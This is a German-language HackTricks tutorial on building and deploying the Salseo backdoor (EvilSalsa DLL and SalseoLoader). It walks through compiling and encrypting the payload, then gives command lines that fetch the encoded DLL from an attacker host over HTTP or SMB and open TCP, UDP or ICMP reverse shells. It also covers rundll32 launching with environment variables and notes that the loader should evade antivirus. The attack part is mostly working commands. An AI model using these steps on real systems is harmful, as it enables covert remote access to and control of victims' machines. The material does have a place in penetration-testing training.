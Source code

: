 # Salseo

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

## Kompilieren der Binaries

Laden Sie den Quellcode von GitHub herunter und kompilieren Sie **EvilSalsa** und **SalseoLoader**. Sie benötigen **Visual Studio**, um den Code zu kompilieren.

Kompilieren Sie diese Projekte für die Architektur des Windows-Systems, auf dem Sie sie verwenden möchten (Wenn Windows x64 unterstützt, kompilieren Sie sie für diese Architektur).

Sie können **die Architektur auswählen** innerhalb von Visual Studio im **linken "Build"-Tab** unter **"Platform Target".**

(\*\*Wenn Sie diese Optionen nicht finden können, klicken Sie auf **"Project Tab"** und dann auf **"\<Projektname> Eigenschaften"**)

![](<../.gitbook/assets/image (839).png>)

Dann bauen Sie beide Projekte (Build -> Build Solution) (Im Protokoll wird der Pfad der ausführbaren Datei angezeigt):

![](<../.gitbook/assets/image (381).png>)

## Bereiten Sie die Hintertür vor

Zuerst müssen Sie die **EvilSalsa.dll** kodieren. Dazu können Sie das Python-Skript **encrypterassembly.py** verwenden oder das Projekt **EncrypterAssembly** kompilieren:

### **Python**
```
python EncrypterAssembly/encrypterassembly.py <FILE> <PASSWORD> <OUTPUT_FILE>
python EncrypterAssembly/encrypterassembly.py EvilSalsax.dll password evilsalsa.dll.txt
```
### Windows
```
EncrypterAssembly.exe <FILE> <PASSWORD> <OUTPUT_FILE>
EncrypterAssembly.exe EvilSalsax.dll password evilsalsa.dll.txt
```
Ok, jetzt hast du alles, was du brauchst, um das gesamte Salseo-Ding auszuführen: die **kodierte EvilDalsa.dll** und die **Binärdatei von SalseoLoader.**

**Lade die SalseoLoader.exe-Binärdatei auf die Maschine hoch. Sie sollten von keinem AV erkannt werden...**

## **Führe die Hintertür aus**

### **Erhalte eine TCP-Reverse-Shell (kodierte DLL über HTTP herunterladen)**

Denke daran, eine nc als Reverse-Shell-Listener und einen HTTP-Server zu starten, um das kodierte evilsalsa bereitzustellen.
```
SalseoLoader.exe password http://<Attacker-IP>/evilsalsa.dll.txt reversetcp <Attacker-IP> <Port>
```
### **Einen UDP-Reverse-Shell erhalten (kodierte DLL über SMB herunterladen)**

Denken Sie daran, ein nc als Reverse-Shell-Listener zu starten und einen SMB-Server, um die kodierte evilsalsa bereitzustellen (impacket-smbserver).
```
SalseoLoader.exe password \\<Attacker-IP>/folder/evilsalsa.dll.txt reverseudp <Attacker-IP> <Port>
```
### **Einen ICMP Reverse Shell erhalten (kodierte DLL bereits im Opfer)**

**Diesmal benötigen Sie ein spezielles Tool auf dem Client, um den Reverse Shell zu empfangen. Herunterladen:** [**https://github.com/inquisb/icmpsh**](https://github.com/inquisb/icmpsh)

#### **ICMP-Antworten deaktivieren:**
```
sysctl -w net.ipv4.icmp_echo_ignore_all=1

#You finish, you can enable it again running:
sysctl -w net.ipv4.icmp_echo_ignore_all=0
```
#### Führen Sie den Client aus:
```
python icmpsh_m.py "<Attacker-IP>" "<Victm-IP>"
```
#### Im Inneren des Opfers, lassen Sie uns das salseo-Ding ausführen:
```
SalseoLoader.exe password C:/Path/to/evilsalsa.dll.txt reverseicmp <Attacker-IP>
```
## Kompilieren von SalseoLoader als DLL, die die Hauptfunktion exportiert

Öffnen Sie das SalseoLoader-Projekt mit Visual Studio.

### Fügen Sie vor der Hauptfunktion hinzu: \[DllExport]

![](<../.gitbook/assets/image (409).png>)

### Installieren Sie DllExport für dieses Projekt

#### **Tools** --> **NuGet-Paket-Manager** --> **NuGet-Pakete für die Lösung verwalten...**

![](<../.gitbook/assets/image (881).png>)

#### **Suchen Sie nach dem DllExport-Paket (unter Verwendung des Browse-Tabs) und drücken Sie Installieren (und akzeptieren Sie das Popup)**

![](<../.gitbook/assets/image (100).png>)

In Ihrem Projektordner sind die Dateien erschienen: **DllExport.bat** und **DllExport\_Configure.bat**

### **U**ninstallieren Sie DllExport

Drücken Sie **Deinstallieren** (ja, es ist seltsam, aber vertrauen Sie mir, es ist notwendig)

![](<../.gitbook/assets/image (97).png>)

### **Beenden Sie Visual Studio und führen Sie DllExport\_configure aus**

Beenden Sie einfach Visual Studio

Gehen Sie dann zu Ihrem **SalseoLoader-Ordner** und führen Sie **DllExport\_Configure.bat** aus

Wählen Sie **x64** (wenn Sie es in einer x64-Umgebung verwenden möchten, war das mein Fall), wählen Sie **System.Runtime.InteropServices** (innerhalb von **Namespace für DllExport**) und drücken Sie **Übernehmen**

![](<../.gitbook/assets/image (882).png>)

### **Öffnen Sie das Projekt erneut mit Visual Studio**

**\[DllExport]** sollte nicht länger als Fehler markiert sein

![](<../.gitbook/assets/image (670).png>)

### Erstellen Sie die Lösung

Wählen Sie **Ausgabetyp = Klassenbibliothek** (Projekt --> SalseoLoader-Eigenschaften --> Anwendung --> Ausgabetyp = Klassenbibliothek)

![](<../.gitbook/assets/image (847).png>)

Wählen Sie die **x64** **Plattform** (Projekt --> SalseoLoader-Eigenschaften --> Erstellen --> Plattformziel = x64)

![](<../.gitbook/assets/image (285).png>)

Um die Lösung zu **erstellen**: Erstellen --> Lösung erstellen (Im Ausgabekonsolenfenster wird der Pfad der neuen DLL angezeigt)

### Testen Sie die generierte DLL

Kopieren Sie die DLL und fügen Sie sie dort ein, wo Sie sie testen möchten.

Führen Sie aus:
```
rundll32.exe SalseoLoader.dll,main
```
Wenn kein Fehler auftritt, haben Sie wahrscheinlich eine funktionale DLL!!

## Holen Sie sich eine Shell mit der DLL

Vergessen Sie nicht, einen **HTTP** **Server** zu verwenden und einen **nc** **Listener** einzurichten

### Powershell
```
$env:pass="password"
$env:payload="http://10.2.0.5/evilsalsax64.dll.txt"
$env:lhost="10.2.0.5"
$env:lport="1337"
$env:shell="reversetcp"
rundll32.exe SalseoLoader.dll,main
```
### CMD
```
set pass=password
set payload=http://10.2.0.5/evilsalsax64.dll.txt
set lhost=10.2.0.5
set lport=1337
set shell=reversetcp
rundll32.exe SalseoLoader.dll,main
```
{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
